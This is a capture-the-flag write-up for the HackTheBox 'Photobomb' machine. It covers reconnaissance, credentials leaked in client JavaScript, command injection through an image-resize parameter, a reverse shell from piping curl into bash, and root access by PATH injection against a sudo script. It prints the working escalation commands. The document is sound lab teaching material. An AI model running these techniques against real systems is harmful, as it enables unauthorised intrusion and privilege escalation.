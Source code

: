 Hello and welcome back to another write up. This one is on box from Hackthebox called Photobomb. 
Starting the box with nmap:

```
# nmap -T4 -sC -sV -p- 10.10.11.182 > nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Not many stuff here - just ssh and http that shows us hostname which we add to our `/etc/hosts` file:

```
# echo "10.10.11.182 photobomb.htb" >> /etc/hosts 
```

Trying to find out what the page uses by trying `http://photobomb.htb/index.php` returns us this:

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Photobomb/images/IMG1.png?raw=true)

CLicking the link on the site redirects us to `/printer` which prompts us for credentials which we don't have right now. 
There isn't anything else we can do right now so let's use feroxbuster to find other directories. But that doesn't return 
anything either:

```
# feroxbuster -u http://photobomb.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://photobomb.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       22l       95w      843c http://photobomb.htb/
401      GET        7l       12w      188c http://photobomb.htb/printer
401      GET        7l       12w      188c http://photobomb.htb/printers
401      GET        7l       12w      188c http://photobomb.htb/printer_friendly
----*********------
```

Subdomain brute force doesn't return anything either. Now let's view source for the webpage. 
In source there is this(view-source:http://photobomb.htb/photobomb.js):

```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Now we have creds so let's get to `/printer`. We can download photos. If we catch the request in burp we see that there is parameter
dimensions which means that the server doesn't store all the images somewhere but rather converts them on the go. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Photobomb/images/IMG2.png?raw=true)

Here we can try to do command injection starting with sleep. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Photobomb/images/IMG3.png?raw=true)

And it works. Hosting python server with `shell.sh` and using curl and pipe into bash gives us reverse shell on nc listener 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Photobomb/images/IMG4.png?raw=true)

and we get user flag. 

```
wizard@photobomb:~$ cat user.txt 
75a86a8fe31f5**********
```

Looking at `sudo -l` there is file cleanup.sh:

```
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

We can set enviroment variable while running the script cleanup.sh which looks like this:

```
root@photobomb:/home/wizard/photobomb# cat /opt/cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

There is find command that isn't using absolute path which we can abuse with PATH injection.

```
wizard@photobomb:/tmp# echo "/bin/bash -p" > find
wizard@photobomb:/tmp$ export PATH=/tmp:$PATH
User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh 
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we can get flag from /root/root.txt:

```
root@photobomb:~# cat /root/root.txt 
b76f595541ed616c2a3963b**********
```

This is it for this write up thank you for reading.
